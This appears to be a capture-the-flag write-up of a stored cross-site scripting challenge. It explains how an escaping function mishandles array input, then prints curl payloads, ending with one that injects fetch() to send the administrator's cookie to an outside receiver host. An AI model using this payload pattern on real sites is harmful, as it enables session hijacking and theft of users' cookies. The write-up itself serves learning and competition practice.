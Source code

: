 **Knowledge**:
- XSS Filter Evation
- Javascript

**Task**: We are given a webserver's logic. The server allows us to submit a note and notify the administrator to check our note.

**Investigation**: 
- A classic scenario of cross-site scripting attacks. A malicious script is not properly sanitized, allowing attackers to store the script persistently within a database.
Victims visiting the webpage hosting the script will cause the script to be fetched from the database and is executed in the browsing context of the victim. Thus, it is possible for the attacker to passively steal victim secret data such as token or cookie.

Having said that, our goal is to inject the script. Fortunately, we are given the server's source to understand how input is sanitized on the server's side:

```javascript
app.post('/', async(req,res)=>{
    // Our note's content is stored in variable 'note'
    const note = req.body.content;
    ...
    // Each note is associated with a note_id and is then stored into database
    const result = await DB.add_note(note_id, note);
    });

app.get('/:id..',recaptcha.middle..,async(req,res)=>{
 
    // Get note base on the id
    const note = DB.get_note(note_id);

    // Sanitize the note before rendering
    const unsafe_content = note.content;
    const safe_content = escape_string(unsafe_content);
    });

    // Render it
    res.render('note_public',{
        content: safe_content,
        ...
        })
```

How does `escape_string` work?

```javascript

  const escape_string = unsafe => JSON.stringify(unsafe). // Convert object to string 
                                  slice(1,-1).            // Leave out the 1st and the last item in the string
                                  replace(/</g,'\\\x3e'). // Escape the '<' globally, every instance will be replaced with x3e
                                  replace(/>/g,'\\\x3c')  // Escape the '>' globally
```

So `unsafe` can be either string, or an object ? This is further confirmed as `extended` is set to true in urlencoded. If we send an array `content[]=hello`, the server will receive an object `['hello']`.
Then `unsafe_content` will be the object `['hello']`. Applying the `escape_string`, we obtain the string `"hello"`. Note that the square brackets disappear because of the slice.

We then test our payload and see how the payload is rendered

```bash
curl -v https://pasteurize.web.ctfcompetition.com/ -d 'content[]=hello'

#Rendered page html
// Ops! Unescaped double quotes
const note = ""hello"";
const note_id = "659a2173-9b11-43ac-8658-e18dea463263";
const note_el = document.getElementById('note-content');
const note_url_el = document.getElementById('note-title');
const clean = DOMPurify.sanitize(note);
...
```
The key problem here is the escape_string assumes that unsafe will be string, and the double quotes will be removed by the `slice(1,-1)` to produce a valid string without double quotes. However,
it failed to handle the scenario where an object is converted into a string. As a consequence, it missed handled the square brackets, allowing us to produce double quotes without escaping.
The misused double quotes then pair with existing one, allowing us to inject code in the middle of the `const note`'s line. This observation is further confirmed with the following payload:

```bash
curl -v https://pasteurize.web.ctfcompetition.com/ -d 'content[]=;alert(1);'

#Render page html
// JS engine uses semicolon to separate statements. If a statement is not explicitly terminated with a semicolon, the JS engine will 
// automatically insert semicolon at the end of the statement.
const note = "";alert(1);"";
const note_id = "94d03158-c388-4931-ae18-a3d7149903be";
const note_el = document.getElementById('note-content');
const note_url_el = document.getElementById('note-title');
const clean = DOMPurify.sanitize(note);

```

We use pipedream.com to host our http receive server. We then use the following payload, share it with Mike and obtain his cookie:

```bash
curl -v https://pasteurize.web.ctfcompetition.com/ -d "content[]=;fetch('https://REDACT/'%2bdocument.cookie);"

#Response checked on our receiver:
secret = CTF{Express_t0_Tr0ub13s}
```

